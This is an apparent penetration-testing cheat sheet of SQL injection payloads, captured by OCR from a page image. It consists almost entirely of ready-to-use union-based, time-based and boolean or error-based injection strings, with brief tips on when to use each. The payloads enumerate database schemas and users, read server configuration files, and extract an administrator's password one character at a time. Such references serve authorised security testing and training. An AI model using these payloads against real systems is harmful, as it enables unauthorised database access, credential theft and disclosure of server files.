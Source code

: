 
Union-based SQLi:

```fundamental
' UNION SELECT 1,2,3,4-- 

' UNION SELECT NULL,NULL,NULL,NULL-- 

' UNION SELECT 1,concat_ws('|',database(),current_user(),version()),3,4-- 

' UNION SELECT 1,concat_ws('|',table_schema,table_name,column_name,data_type,character_maximum_length),3,4 FROM information_schema.columns-- 

' UNION SELECT 1,load_file('..\\..\\apache\\conf\\httpd.conf'),3,4-- 
```

If using, e.g., `1,2,3,4` does not work, try using `NULL,NULL,NULL,NULL` respectively.

Use the union-based SQLi only when you are able to use the same communication channel to both launch the attack and gather results.

The goal is to determine the exact number of columns in the SQL query and to figure out which of them are shown back to the user.

Another way to determine the exact number of columns is by using, e.g., `' ORDER BY 1-- `, where `1` is the column number used for sorting - incrementing it by one on each try.

---

Time-based SQLi:

```fundamental
' AND (SELECT 1 FROM (SELECT sleep(2)) test)-- 

' AND (SELECT 1 FROM (SELECT CASE user() WHEN 'root@127.0.0.1' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT 1 FROM (SELECT CASE substring(current_user(),1,1) WHEN 'r' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT CASE substring(password,1,1) WHEN '$' THEN sleep(2) ELSE sleep(0) END FROM users WHERE id = 1)-- 

' AND IF(version() LIKE '5%',sleep(2),sleep(0))-- 
```

Use the time-based SQLi when you are not able to see the results.

---

Check for the existance/correctness:

```fundamental
' AND (SELECT 'exists' FROM users) = 'exists

' AND (SELECT 'exists' FROM users WHERE username = 'administrator') = 'exists

' AND (SELECT 'correct' FROM users WHERE username = 'administrator' AND length(password) < 8 ) = 'correct

' AND (SELECT CASE substring(password,1,1) WHEN '$' THEN to_char(1/0) ELSE 'correct' END FROM users WHERE username = 'administrator') = 'correct

'||(SELECT CASE substring(password,1,1) WHEN '$' THEN to_char(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'
```

---